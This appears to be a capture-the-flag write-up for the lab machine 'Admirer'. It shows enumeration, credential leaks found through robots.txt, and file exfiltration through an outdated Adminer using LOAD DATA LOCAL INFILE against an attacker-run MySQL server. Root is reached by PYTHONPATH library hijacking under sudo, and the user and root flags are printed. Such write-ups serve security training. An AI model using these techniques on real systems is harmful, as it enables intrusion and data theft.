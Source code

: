 * Admirer
** Enumeration
*** meta
# Nmap 7.80 scan initiated Thu May  7 01:53:25 2020 as: nmap -Pn -sC -sV -oA nmap 10.10.10.187
Nmap scan report for 10.10.10.187
Host is up (0.014s latency).
Not shown: 997 closed ports
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  7 01:53:35 2020 -- 1 IP address (1 host up) scanned in 9.39 seconds
*** 21/tcp open  ftp     vsftpd 3.0.3
No anon login allowed.
*** 22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
*** 80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
**** dirsearch
***** [01:59:06] 301 -  313B  - /assets  ->  http://10.10.10.187/assets/
***** [01:59:14] 301 -  313B  - /images  ->  http://10.10.10.187/images/
***** [01:59:15] 200 -    6KB - /index.php
***** [01:59:15] 200 -    6KB - /index.php/login/
***** [01:59:23] 200 -  138B  - /robots.txt
**** gobuster
** Foothold
The first big thing to note is *robots.txt*, which tries to steer robots clear of the directory ~admin-dir~. Of course, that's a huge flag to us!

*dirbuster* et al don't turn up anything in this directory, but closer examination of robots.txt mentions credentials and contacts... sure enough, ~admin-dir/credentials.txt~ and ~admin-dir/contacts.txt~ are readable and contain what you might expect!

Only of these recovered creds works, the FTP cred, but from FTP we can get a backup of the website and a SQL dump.

No more creds are available there, but we can start to see the structure of what's going on. In particular some of the utility scripts that are there are still up, but not 'db_admin' which has a note inside to remove it in favor of something else.

Checking for mysql front end db management scripts in this directory and we can a hit on ~/utility-scripts/adminer.php~.

The script itself reports that its out of date and a google search reveals there is a huge exploit available: https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool

Setting up a local mysql host (with creds for 'user@10.10.10.187'), and we can connect to it from ~adminer~ and start exfiltrating files into tables, like so:

attack server: ~create table indexphp (line text);~
adminer: ~load data local infile '../index.php' into table indexphp;~
attack server: ~select * from index.php;~

... and so on for other files on disk. The most notable thing available is a new set of credentials for ~waldo~ in ~index.php~ for connecting to the database. After exfiltrating files we can connect with ~adminer~ to localhost, although there doesn't appear to be much of interest.

~ssh waldo@$TARGET~ works with those same credentials though, so we have a foothold and user.txt.

USER: 9257d14047c96d3bfdb3a90b4149b377
** Escalation

#+BEGIN_SRC bash
waldo@admirer:~$ sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on
admirer:
env_reset, env_file=/etc/sudoenv,
mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
listpw=always

User waldo may run the following commands
on admirer:
(ALL) SETENV: /opt/scripts/admin_tasks.sh
#+END_SRC

So the one obvious thing we can is run that script as sudo, which can do a few things... it copies ~/etc/passwd~ and ~/etc/shadow~ and then ~chmod~s, is it possible there's a weird timing attack?

Otherwise, one of the options runs a python script that import a library, so manipulating ~PYTHONPATH~ we may be able to gain RCE by injecting our own library instead.

~sudo -E /opt/scripts/admin_tasks.sh~ doesn't quite work even when ~PYTHONPATH~ is exported into the current environment, but:

~sudo PYTHONPATH=<path-with-shutil> /opt/scripts/admin_tasks.sh~ does!
ROOT: aa05eb78daf302e1de001d4723faeb94
